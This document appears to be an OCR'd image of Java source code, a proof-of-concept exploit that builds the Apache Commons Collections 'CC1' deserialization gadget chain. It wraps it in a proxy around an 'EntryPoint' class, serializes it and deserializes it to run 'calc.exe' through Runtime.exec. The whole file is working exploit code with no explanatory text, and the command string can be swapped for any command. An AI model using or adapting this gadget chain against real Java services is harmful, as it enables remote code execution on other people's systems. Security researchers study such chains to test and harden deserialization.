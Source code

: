 ```java

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class YsoCC1ChangeEntryPoint {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class,
                        Object[].class }, new Object[] { null, new
                        Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class
                },
                        new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
                construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map)
                Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class},
                        handler);
        EntryPoint entryPoint = new EntryPoint(proxyMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(entryPoint);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```
